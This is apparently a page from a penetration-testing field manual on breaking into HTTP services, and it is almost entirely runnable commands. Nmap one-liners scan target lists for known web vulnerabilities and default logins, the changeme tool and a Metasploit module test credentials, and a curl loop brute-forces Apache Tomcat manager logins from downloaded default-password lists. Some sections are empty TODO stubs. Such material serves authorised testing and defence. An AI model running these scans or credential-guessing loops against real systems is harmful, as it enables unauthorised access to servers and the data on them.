 
# Flawed HTTP Remote Services

## Overview

MITRE ATT&CK mapping: T1021 / T1210

## Procedures

### Additional tools

 - [gnmap2urls.sh](scripts/gnmap2urls.sh)
 - [http-fingerprints-min.lua](scripts/http-fingerprints-min.lua)
 - [nikto vuln db file](https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests)

### Web vulnerability discovery

Prepare target list:

    # transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
    cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

Using Nikto DB:

    # get nikto vuln db file
    wget https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests -O nikto_db_tests

    # get minimal http-enum script
    wget https://raw.githubusercontent.com/mzet-/z-field-manual/master/scripts/http-fingerprints-min.lua

    # conduct http vuln scan on all previously identified http-based services:
    nmap -n -PN -sS -sV --version-intensity 2 --script=http-enum --script-args=http-enum.fingerprintfile=./http-fingerprints-min.lua,http-fingerprints.nikto-db-path=./nikto_db_tests -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-nikto-vuln-scan

Using http-vulners-regex:

```
# get latest http vulners and regex matches:
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.nse
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.json
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-paths.txt

# TODO: launch
mv http-vulners-regex.nse res/
cd /usr/share/nmap/scripts
ln -s "$HOME/res/http-vulners-regex.nse"
nmap --script-updatedb

# -sV is required as Nmap need to determine if provided ports different then 80,443 are really http-based services
# other alternative would be to change portrule to match particular port on fly (as here: https://github.com/InfosecMatter/default-http-login-hunter)
# http-vulners-regex - constructs CPEs for http-based services
# vulners - queries API at https://vulners.com for known CVEs for given CPEs
nmap -n -PN -sS -sV --open --script=http-vulners-regex,vulners -p$(cat http-ports.txt | tr '\n' ',') -iL http-ips.txt -oA vscans/http-vulners-regex
```

[snallygaster](https://github.com/hannob/snallygaster) (run in parallel)

```
TODO
```

### Web-based authentication panels

Default credentials: Nmap

```
# get Nmap's aternative default account db :
wget https://raw.githubusercontent.com/nnposter/nndefaccts/master/http-default-accounts-fingerprints-nndefaccts.lua

# transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

# check for default web-based accounts:
nmap -n -PN -sS -sV --open --version-intensity 2 --script http-default-accounts --script-args http-default-accounts.fingerprintfile=./http-default-accounts-fingerprints-nndefaccts.lua -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-def-accounts
```

Default credentials: changeme

```
# note: when providing file to 'changeme' full path is required:
changeme '/home/pt/httprobe-all.txt' -v -t 20 | tee changeme-http-urls.out
changeme '/home/pt/vscans/nmap.xml' --category http -v -t 20 | tee changeme-http-urls.out
```

Weak/simple credentials:

```
TODO
```


### Apache Tomcat: default/weak credentials

Use Metasploit module:

```
auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used), prepare target list:

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
cat /tmp/tomcat.csv | tr ',' ':' | tr -d '"' | grep -v 'host' | ./httpx -silent | while read l; do echo "$l/manager/html"; done | tee tomcat-urls.txt
```

Prepare creds list:

```
# Set 1:
wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/tomcat_default_79.txt
cat tomcat_default_79.txt | cut -d: -f2,3 > PAYLOADS/tomcat-defaults-1.txt

# Set 2:
$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown
$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults-2.txt
```

Launch:

```
while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults-1.txt); do RES=$(curl -k -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"); echo "$i:: $RES"; [ "$RES" -eq 200 ] && break; done; done < tomcat-urls.txt | tee tomcats-results-1.txt
```

## OPSEC considerations

## Counter-countermeasures
